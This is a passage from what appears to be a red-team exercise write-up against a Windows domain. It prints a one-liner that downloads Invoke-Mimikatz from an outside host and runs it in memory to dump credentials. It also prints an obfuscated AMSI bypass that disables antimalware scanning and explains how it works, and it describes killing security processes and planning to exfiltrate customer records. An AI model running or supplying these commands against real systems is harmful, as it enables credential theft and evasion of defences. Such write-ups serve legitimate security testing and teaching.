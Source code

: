 ```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```

However, running this from the command prompt gets it flagged immediately by the AMSI service on Windows and generates an alert. We need a way to disable or bypass AMSI so that we can continue uninterrupted. A simple search though in GitHub brings us to [a page of updated AMSI bypasses](https://gist.github.com/D3Ext/bf57673644ba08e729f65892e0dae6c4). From there, this one-liner was able to disable AMSI:

```
$a='si';$b='Am';$Ref=[Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils'-f $b,$a)); $z=$Ref.GetField(('am{0}InitFailed'-f$a),'NonPublic,Static');$z.SetValue($null,$true)
```

Let's break this down. First I declare ```si``` and ```Am``` as two variables. I then get the ```type``` of AmsiUtils which looks like the below.

![AMSI](/assets/img/AEE/amsiUtils.png)

Then I use the type to get the field from ```amsiInitFailed``` called ```'NonPublic,Static'``` and set it to ```True```. Compare the below images to see what the field looks like before and after the completed AMSI bypass.

![Disabled](/assets/img/AEE/amsi-disabled.png)

This technique is an evolution to the one from Matt Graeber discovered in 2016, with the only change really being additional obfuscation. It allowed for us to download and execute Mimikatz in memory which is what we needed for progressing to the next step.

### What about Backstab?

Backstab simply wasn't needed for this. Had there been a different EDR running to try and protect us, it would have come more into play then, but as it stood an AMSI bypass was all it took to let us run through the Defender protected domain unimpeded. For testing's sake, Backstab was dropped to disk in order to evaluate the detection and used to kill a number of processes, all of which Defender let happen without a care in the world.

### Exfiltrating from the fileshare

Often times in these exercises people think of domain admin as the end-all be-all goal. Unlocking this should unlock the keys to the kingdom. And blue teams know this, which is why there is an absurd amount of alerting around the role. So always gunning for getting DA may actually get your cover blown faster than determining what is valuable to the company and taking that. In our case, since we are a financial services company, this will be financial information such as customer records improperly stored in a fileshare. And exfiltrating these is actually on track for ransomware gangs, they have pivoted to not just encrypting files but also stealing them to ensure a ransom is paid.
